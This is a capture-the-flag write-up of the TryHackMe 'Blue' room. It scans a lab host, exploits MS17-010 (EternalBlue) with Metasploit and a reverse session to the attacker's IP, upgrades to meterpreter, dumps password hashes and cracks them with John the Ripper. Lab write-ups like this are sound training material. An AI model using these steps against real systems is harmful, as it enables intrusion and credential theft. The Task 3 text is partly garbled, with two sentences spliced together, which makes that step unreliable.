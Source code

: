 A guided write to the "Blue" room on THM
TryHackMe Room: https://tryhackme.com/room/blue

# Background on Eternal Blue
Server Message Block (SMB) is a network protocol used by Windows systems to share files, printers, and other resources over a network. It allows a client to request access to files or services on a server, and the server responds with the requested data or action. SMB operates over TCP ports 139 and 445, with modern systems using port 445 by default.

The protocol manages authentication, communication, and data transfer between systems. It supports operations like reading and writing files, creating directories, and controlling printers. SMB also handles inter-process communication through named pipes, which lets applications on different machines communicate.

SMBv1, the earliest version, is outdated and has weak security controls. It trusts input too easily and does not handle malformed requests safely. These weaknesses led to critical exploits like EternalBlue. Later versions, SMBv2 and SMBv3, improved efficiency and added stronger security measures, including encryption and better authentication methods.

EternalBlue specifically abuses the way SMBv1 processes specially crafted packets. By sending malicious requests, an attacker triggers a buffer overflow that allows them to execute arbitrary code on the target system with high privileges. This makes SMB both essential in Windows environments and a high-value target when unpatched.

# task 1 (recon) 
Objective: Identify open ports, services, and potential vulnerabilities on the target machine.

Command Used:
```bash
nmap --script="vuln" -sV -sC -A -T5 10.10.56.99
```

Explanation of Flags:
--script="vuln": Runs vulnerability scripts to check for known weaknesses.

-sV: Detects service versions.

-sC: Runs default scripts for additional info.

-A: Enables OS detection, version detection, script scanning, and traceroute.

-T5: Increases scan speed.

Scan Results Summary:
{image}

Observations:
* SMB ports (139/445) are open, making it a primary target.

* RDP (3389) is tcpwrapped — needs credentials.

* RPC ports (135 + high range) are open but not directly exploitable without authentication.
Key takeaway:
MS17-010 is the exploitable vector. This allows remote code execution via SMBv1 without authentication in many cases.

# Task 2 Gain Access
Task 2 – Gaining Access (THM Writeup)
Objective

The goal of this task was to gain access to the target Windows machine by exploiting a known vulnerability in the SMBv1 service, specifically MS17-010, also known as EternalBlue.

Steps Taken

Starting the Exploitation
The first step involved opening the Metasploit Framework, a commonly used exploitation tool. This allowed access to a large set of pre-built exploits and payloads specifically designed for known vulnerabilities like MS17-010.

Finding the Correct Exploit
Within the framework, a search was conducted to locate the exploit module that targets MS17-010. The module designed for Windows SMBv1 was selected as it matched the target system’s open SMB port and version.

Reviewing Module Requirements
Before running the exploit, the module options were reviewed. This included confirming the target IP, the port on which SMB was running, and the payload to use for gaining a session. It is important to verify these details to ensure the exploit runs successfully.

Setting Up the Exploit
The exploit module was configured with the target machine’s IP and a payload that would create a remote session back to the attacking machine. This step ensures that, when the exploit succeeds, access is granted in a controlled and predictable way.

Launching the Exploit
The exploit was executed against the target machine. Due to the vulnerability in SMBv1, the exploit successfully triggered remote code execution, providing a session on the system.

the following lines of code was used minus the output are
```bash
msfconsole
search ms17-010
use 0
show options
set RHOST 10.10.56.99
Set LHOST 10.8.196.205
exploit
```
{image}

# Task 3 (Privlage Escalation)
By using one of the post exploitation modules, we will upgrade our shell to meterpreter shell

```bash
search shell_to_meterpreter
```

we can see list of modules, there we find only one module, shown below

post/multi/manage/shell_to_meterpreter
 {image}
 As giHere we need to set the “SESSION” also the LHOST

After setting all these, we will Exploit to get the meterpreter shellven below to interact with the module we will be using “use 0” and then show options, what options we will be required to change ?
 {image}
# task 4 cracking
As said to run the command “hashdump” these command had dumped three user names along with the encrypted passwords, we need to crack the encrypted password and find out the answer.
 {image}
 I cracked the password with the help from john the ripper 
 {image}
 #task 5 (flag)
 we have have full access to the computer we can access the flags
